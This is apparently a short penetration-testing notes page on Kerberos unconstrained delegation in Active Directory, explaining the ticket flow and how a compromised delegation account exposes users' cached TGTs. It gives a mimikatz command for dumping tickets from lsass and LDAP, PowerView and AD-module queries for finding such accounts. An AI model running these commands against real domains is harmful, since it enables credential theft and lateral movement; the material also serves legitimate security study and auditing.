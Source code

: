 #powerview #ldap #mimikatz #powershell 
When a user requests for ST, and if the service owner has the `TRUSTED_FOR_DELEGATION` flag set in [User Account Control](Active%20Directory/AD%20Concepts/Users#User%20Account%20Control), the ST received from the KCD will have the `OK_AS_DELEGATE` flag set.
To set `TRUSTED_FOR_DELEGATION` flag in User Account Control, the user needs to have `SeEnableDelegationPrivilege` privilege.
#### Ticket Acquisition
- Client requests for the ST for a service with SPN `HTTP\webserv` which is owned by `websrv$` machine account.
- The KDC checks for `TRUSTED_FOR_DELEGATION` in `websrv$` account's UAC. KDC returns an ST with `OK_AS_DELEGATE` and `FORWARDABLE` flag set.
- The Client checks of these flags and asks a `FORWARDED` TGT. The KDC responds with a TGT with `FORWARDED` flag set.
- The Client sends the ST and the `FORWARDED` TGT to the service for access. 
- The Serivice uses this TGT to request ST for `MSSQLSvc\dbsrv` serivce.
- Websrv uses the ST to get access to the MSSQL service.
### Flaw
If the service account that is `TRUSTED_FOR_DELEGATION` is compromised, we get access to TGTs for uses that have tried to connect to this service. Mimikatz can be used to get access to the TGTs cached in lsass process.
```mimi
mimikatz sekurlsa::tickets
```
### Identifying accounts with unconstrained delegation
- LDAP query
```ldap
(UserAccountControl:1.2.840.113556.1.4.803:=524288)
```
- Powerview
```powershell
Get-DomainComputer -unconstrained
```
- Active Directory Module
```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

